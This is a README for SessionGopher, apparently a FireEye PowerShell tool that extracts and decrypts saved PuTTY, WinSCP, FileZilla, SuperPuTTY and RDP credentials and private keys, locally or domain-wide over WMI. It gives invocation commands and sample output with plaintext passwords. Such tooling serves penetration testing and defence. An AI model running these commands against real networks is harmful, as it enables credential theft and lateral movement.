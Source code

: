 Copyright 2017 FireEye, created by Brandon Arvanaghi ([@arvanaghi](https://twitter.com/arvanaghi))

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

---
# SessionGopher
### Quietly digging up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP

SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It has WMI functionality built in so it can be run remotely.
Its best use case is to identify systems that may connect to Unix systems, jump boxes, or point-of-sale terminals.

SessionGopher works by querying the `HKEY_USERS` hive for all users who have logged onto a domain-joined box at some point. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information. It automatically extracts and decrypts WinSCP, FileZilla, and SuperPuTTY saved passwords.
When run in Thorough mode, it also searches all drives for PuTTY private key files (.ppk) and extracts all relevant private key information, including the key itself, as well as for Remote Desktop (.rdp) and RSA (.sdtid) files.

## Usage
**-Thorough**: searches all drives for PuTTY private key (.ppk), Remote Desktop Connecton (.rdp), and RSA (.sdtid) files. 

**-o**: outputs the data to a folder of .csv files

**-iL**: provide a file with a list of hosts to run SessionGopher against, each host separated by a newline. Provide the path to the file after `-iL`.

**-AllDomain**: SessionGopher will query Active Directory for all domain-joined systems and run against all of them.

**-Target**: a specific host you want to target. Provide the target host after `-Target`.

### To run locally
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Thorough
```

### To run remotely (-iL, -AllDomain, -Target)
To run remotely, you can either provide a privileged account's credentials for the remote system using the `-u` and `-p` flags. If you omit the `-u` and `-p` flags, 
SessionGopher will run under the security context of the account from which you run the script (e.g. if you are already logged in as DA account, or logged in as an account that
is local admin for the target system, or doing a _runas_ with either of the two, you won't need to supply credentials).

```
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
or
```
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -iL computerlist.txt -u domain.com\adm-arvanaghi -p s3cr3tP@ss -o
```
or 
```
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -Target brandonArvanaghi_win7 -Thorough
```

Any of these commands can be coupled with `-Thorough`, but note that it takes significantly longer as it queries the entire remote filesystem. It is not recommended you run in `-Thorough` mode when querying
more than a small set of systems at a time. 

Running remotely by adding `-o` (print to CSV) works nicely, as SessionGopher will accumulate all sessions it finds and tell you exactly where it found that saved session. 

### To write to CSV (whether remote or local)
To have SessionGopher create a folder to neatly contain .csvs of the extracted sessions:
```
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
```
... that's it. 

Accessing the saved session information for every user in `HKEY_USERS` requires local admin privileges. Without local admin privileges, you will still receive saved session
information for that user.

### Sample output (-Thorough):

```
[+] Digging on Win7-Arvanaghi ...
WinSCP Sessions

Session  : admin-anthony@198.273.212.334
Hostname : 198.273.212.334
Username : admin-anthony
Password : Super*p@ssw0rd

Session  : Freddy@204.332.455.213
Hostname : 204.332.455.213
Username : Freddy
Password : angelico1892

FileZilla Sessions

Name     : BarrySite
Password : imr34llytheFl@sh
Host     : 10.8.30.21
User     : BarryAllen
Protocol : Use FTP over TLS if available
Account  : BarryAllenAccount
Port     : 22

PuTTY Sessions

Session  : PointOfSaleTerminal
Hostname : 10.8.0.10

PuTTY Private Key Files (.ppk)

Path                   : C:\Users\Brandon Arvanaghi\Documents\mykey.ppk
Protocol               : ssh-rsa
Comment                : rsa-key-20170116
Private Key Encryption : none
Private Key            : {AAABAEazxtDz6E9mDeONOmz07sG/n1eS1pjKI8fOCuuLnQC58LeCTlysOmZ1/iC4, g4HyRpmdKJGhIxj66/RQ135hVesyk02StleepK4+Tnvz3zmdr4Do5W99qKkrWI3D, T9GOxOIoR9Zc6j57D+fdesJq4ItEIxcQZlXC1F9KZcbXjSJ3iBmCsbG/aRJmMJNx, 
                         nCMaZkySr4R4Z/E+l1JOzXaHh5WQ2P0K4YM1/6XG6C4VzDjvXwcY67MYsobTeCR2...}
Private MAC            : b7e47819fee39a95eb374a97f939c3c868f880de


Microsoft Remote Desktop (RDP) Sessions

Hostname : us.greatsite.com
Username : Domain\tester 

Microsoft Remote Desktop .rdp Files

Path                    : C:\Users\Brandon Arvanaghi\Desktop\config\PenTestLab-Win.RDP
Hostname                : dc01.corp.hackerplaypen.com
Gateway                 : rds01.corp.hackerplaypen.com
Prompts for Credentials : No
Administrative Session  : Does not connect to admin session on remote host

```

---

Written by Brandon Arvanaghi ([@arvanaghi](https://twitter.com/arvanaghi "Arvanaghi's Twitter"))

This code was initially developed at FireEye. However, any subsequent update is done by the author outside of FireEye. 

